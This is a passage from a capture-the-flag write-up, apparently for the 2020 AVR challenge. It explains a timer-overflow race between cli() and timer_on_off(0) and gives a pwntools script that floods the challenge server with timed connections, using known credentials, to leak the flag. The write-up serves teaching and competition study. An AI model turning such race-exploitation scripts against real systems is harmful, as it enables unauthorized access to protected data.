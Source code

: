 But still, 2 instructions instead of 1! But with all the speculation to it, it seemed like the most logical way to get the flag without the password and so I decided
to stick to it without giving this a further thought. I honestly still don't know why sei executed, in fact, two instructions here, but if you know the answer, feel
free to let me know! But anyway, let's write some more code hoping to be able to trigger the timer overflow in the timeframe between `cli()` and `timer_on_off(0)`.

## Obtaining the Flag

I wrote some code that makes use of multiprocessing to establish lots of connections to the server with some random delay appended to it, hoping to push the timer
to some point really close to overflowing, but enough for the `strcmp` to complete and to reach the `cli();` call. You could've surely also implemented this in a smarter
way considering you're given the timer value at the start of the program, during login, and also on every menu iteration. But this just worked out for me.

```py
from multiprocessing import Pool
import random
import re
import time

from pwn import *

context.log_level = "error"

USER = "agent"
PASSWORD = "doNOTl4unch_missi1es!"

SECRET = """Stored secret:
---
Operation SIERRA TANGO ROMEO:
Radio frequency: 13.37MHz
Received message: ATTACK AT DAWN

---
"""


def get_flag(secret: str) -> str:
    if match := re.search(r"CTF{.+}", secret, re.MULTILINE):
        return match.group(0)

    raise ValueError("The given secret string does not contain the flag.")


def sei_race(_):
    while True:
        # Connect to the server and confirm the greeting.
        connection = remote("avr.2020.ctfcompetition.com", 1337)
        connection.sendafter(
            "Welcome to secret military database. Press ENTER to continue.", "\n"
        )

        # Wait for a random delay, hoping to get the timer close to overflowing, and send our credentials.
        time.sleep(random.random())

        # Check if we triggered the race condition and the flag was copied.
        connection.send(f"{USER}\n{PASSWORD}\n")
        connection.sendafter("Choice: ", "2\n")
        secret = connection.recvall().decode()
        if not secret.startswith(SECRET):
            print("Flag:", get_flag(secret))
```